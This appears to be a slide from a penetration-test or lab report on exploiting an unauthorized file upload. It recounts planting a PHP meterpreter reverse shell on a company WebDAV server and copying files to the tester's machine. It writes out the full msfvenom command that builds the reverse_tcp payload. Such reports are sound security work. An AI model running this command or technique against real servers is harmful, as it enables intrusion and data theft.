

# Exploitation: Unauthorized File Upload
01

02

03

Tools & Processes
Created a reverse_tcp shell php payload using meterpreter
Inserted the payload shell into the company webdav server

Achievements
The reverse shell was successfully executed and enabled me to establish a meterpreter session with the target machine, enabling me to search throughout the machine’s database and access any and all files and copy them over to my host machine

Created the reverse_tcp shell with the following command: msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.8 lport=4444 >> reverse_shell.php